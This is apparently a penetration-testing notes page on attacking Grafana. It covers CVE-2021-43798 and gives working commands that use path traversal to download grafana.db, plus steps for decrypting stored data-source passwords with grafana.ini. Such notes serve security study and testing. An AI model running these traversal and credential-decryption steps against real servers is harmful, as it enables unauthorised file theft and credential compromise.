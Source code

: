 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Grafana

Grafana is an open-source analytics and visualization platform used to monitor time-series data from sources like Prometheus, InfluxDB, Elasticsearch, and many others. It provides dashboards, alerting, and flexible query capabilities, making it a popular choice for infrastructure and application monitoring.

By default, Grafana runs on port `3000` and includes a web interface with user roles and data source integrations. Misconfigured or outdated instances often expose sensitive metrics, credentials, or admin access. Authentication bypasses, API abuse, and plugin vulnerabilities have historically allowed PE and RCE.

## LFI

Grafana versions `8.0.0-beta1` through `8.3.0` (except patched releases) are susceptible to a LFI vulnerability via the `/public/plugins/<plugin_id>/` URL path. This vulnerability enables attackers to access local files on the server by manipulating plugin IDs in the URL ([CVE-2021-43798](https://nvd.nist.gov/vuln/detail/cve-2021-43798)). A working PoC is publicly available.&#x20;

{% hint style="success" %}
* &#x20;[Default database file location](https://grafana.com/docs/grafana/latest/administration/back-up-grafana/#sqlite) → `/var/lib/grafana/grafana.db`
{% endhint %}

{% code overflow="wrap" %}
```bash
$ searchsploit grafana 8.3
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read | multiple/webapps/50581.py

$ python3 50581.py -H http://grafanta-instance:3000

# Manually
$ curl -s --path-as-is "http://grafanta-instance:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" --output grafana.db
```
{% endcode %}

The [default encryption](https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/configure-database-encryption/#changing-your-encryption-mode-to-aes-gcm) used in Grafana is AES. A [PoC](https://github.com/Sic4rio/Grafana-Decryptor-for-CVE-2021-43798) is available to decrypt the key, but it needs the `grafana.ini` file. The [default path](https://grafana.com/docs/grafana/latest/administration/provisioning/#configuration-file) for the configuration file is: `/etc/grafana/grafana.ini`.

```bash
$ uv run decrypt.py
? Enter the datasource password: <base64-encoded password>
[*] grafanaIni_secretKey= <inferred-key>
[*] DataSourcePassword= <inferred-password>
[*] plainText= <decrypted-password>
```
